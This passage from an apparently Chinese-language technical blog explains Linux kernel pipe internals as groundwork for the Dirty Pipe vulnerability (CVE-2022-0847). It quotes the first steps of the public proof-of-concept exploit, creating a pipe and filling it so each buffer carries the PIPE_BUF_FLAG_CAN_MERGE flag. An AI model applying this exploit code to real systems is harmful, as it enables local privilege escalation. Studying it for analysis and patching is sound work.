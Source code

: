 ####    基础知识
1、 管道的文件操作类型`pipefifo_fops` 是一个 `struct file_operations` 类型的常量，定义了 pipe 类型支持的文件操作集合

```CPP
const struct file_operations pipefifo_fops = {
    .open        = fifo_open,
    .llseek        = no_llseek,
    .read_iter    = pipe_read,
    .write_iter    = pipe_write,
    .poll        = pipe_poll,
    .unlocked_ioctl    = pipe_ioctl,
    .release    = pipe_release,
    .fasync        = pipe_fasync,
};
```

####    1、创建管道
管道（pipe）是内核提供的一种通信机制，通过`pipe`/`pipe2`函数创建，返回两个文件描述符，一个用于发送数据，另一个用于接收数据，类似管道的两端。在内核实现中，通常管道缓存总长度`65536`字节，使用页（物理页）的形式进行管理，总共`16`页（每页`4096`字节），页面之间并不连续，而是通过数组[指针](https://elixir.bootlin.com/linux/v5.13/source/include/linux/pipe_fs_i.h#L76)进行管理，形成一个环形结构。内核实现中，管道会维护两个指针，其中`pipe->head`用来写管道头，`pipe->tail`用来读管道尾

```cpp
int p[2];
pipe(p);
```

![pipe_inode_info_init.png](https://raw.githubusercontent.com/pandaychen/pandaychen.github.io/refs/heads/master/blog_img/cve/2022-0847/init.jpg)


####    2、填充管道 
第二步，对应的POC代码片段为：
```cpp
const unsigned pipe_size = fcntl(p[1], F_GETPIPE_SZ);
static char buffer[4096];

/* fill the pipe completely; each pipe_buffer will now have
    the PIPE_BUF_FLAG_CAN_MERGE flag */
for (unsigned r = pipe_size; r > 0;) {
    unsigned n = r > sizeof(buffer) ? sizeof(buffer) : r;
    write(p[1], buffer, n);
    r -= n;
}
```
